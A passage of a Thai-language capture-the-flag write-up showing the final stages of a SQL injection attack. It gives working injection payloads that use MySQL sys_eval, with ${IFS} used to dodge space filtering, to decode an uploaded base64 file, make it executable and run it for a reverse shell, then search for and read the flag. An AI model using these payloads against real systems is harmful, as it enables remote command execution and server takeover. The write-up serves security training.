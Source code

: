 
- เมื่อส่ง payload ทั้งหมดแล้วก็ไปสั่ง decode ไฟล์ `a` ที่เป็น base64 กลับเป็นข้อความเดิม ด้วยคำสั่ง `base64 -d` แล้ว save เป็นไฟล์ใหม่ชื่อไฟล์ `b`
    ```bash
    1' AND ''=(select sys_eval('cat${IFS}a|base64${IFS}-d${IFS}>b'))#
    ```

- เปลี่ยนสิทธิ์ของไฟล์ `b` ให้ execute ได้
    ```bash
    1' AND ''=(select sys_eval('chmod${IFS}+x${IFS}b'))#
    ```
- และสุดท้ายสั่ง `execute` ไฟล์ `b` เลย
    ```bash
    1' AND ''=(select sys_eval('./b'))#
    ```
สำเร็จ reverse shell ได้แล้ว ที่เหลือก็หาไฟล์ flag 

### Success! 🎉
<img src="./resources/59.png" alt="" style="width:90% !important;">

ได้ reverse shell สำเร็จและเริ่มการล้วงหาข้อมูล:

**Find Flag:**
   ```bash
   find / -name "flag*" 2>/dev/null
   ```

พบ flag ใน `/var/www/`:

**และอ่าน Flag:**
   ```bash
   cat /var/www/flag_xxx.txt
   ```